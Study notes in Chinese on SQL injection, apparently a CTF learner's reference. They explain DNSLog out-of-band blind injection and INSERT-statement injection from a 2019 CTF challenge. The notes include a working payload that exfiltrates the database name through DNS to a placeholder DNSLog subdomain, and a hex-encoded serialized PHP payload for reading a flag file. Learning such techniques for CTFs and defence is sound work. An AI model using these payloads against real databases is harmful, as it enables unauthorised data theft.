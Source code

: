 ## 1. DNSLog 注入

1. 某些情况下，盲注的效果不明显，又或者是 waf 的存在，导致自动化脚本受阻，因此可以用 DNSLog 外带的方式来查看结果。同时 DNSLog 的效率高些。

2. 前置条件：对路径有读写权限且没有限制。

3. 一般读取文件的函数是：
    `select load_file("本地文件路径")`
    但是 `load_file()` 是可以读取远程文件的。

4. 补充知识：UNC （Universal Naming Convention 通用命名规则）路径：

    > 格式：`\\servername\sharename`，其中 servername 是服务器名。sharename 是共享资源的路径。

5. 在 MySQL 中就是 `select load_file("//ip[Domain]/文件路径")`，注意是正斜杠。

6. 原理就是解析域名（包括子域名）的时候会产生解析日志，看日志就能知道查询请求的内容。

7. 常用的，替代时间盲注的 payload 就是：
    `id=1' and (select load_file(concat("//", (select database()), ".DNSLog_SubDomain/随便的文件路径"))) -- -`
    注意这里需要用 `concat()` 函数来进行字符串拼接，否则中间的 `select database()` 不会执行。注意域名前面要有个点，即访问的是 DNSLog 子域名的子域名，这样结果就会外带出来。

## 2. DNSLog 自动化注入

1. 使用工具：
    http://ceye.io
    DnslogSqlinj：https://github.com/ADOOO/DnslogSqlinj

2. 需要的库：
    ```bash
    pip2 install gevent==1.2.2
    pip2 install termcolor
    ```

    使用的环境是 python2

3. todo 考虑 sqlmap + dnslog

## 3. `insert` 注入

1. 其实原理并不难，需要注意的是，如果 `insert` 可注入的数据可控，一定要注意闭合，例如：[安洵杯 2019]不是文件上传：
    ```php
    # insert into images (title, filename, ext, path, attr) values ('1', 1, 1, 1, payload);# , ...);
    		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
    ```

    从第一个参数开始注入，其中开头会有单引号 `'`，因此在构建 payload 的时候也需要单引号：
    `1','1','1','1',0x4f3a363a2268656c706572223a333a7b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30666f6c646572223b733a343a227069632f223b7d)# `。开头就对其进行闭合。

2. 这题还有 SQL 的 **16 进制编码**，也是比较重要且易忘的。
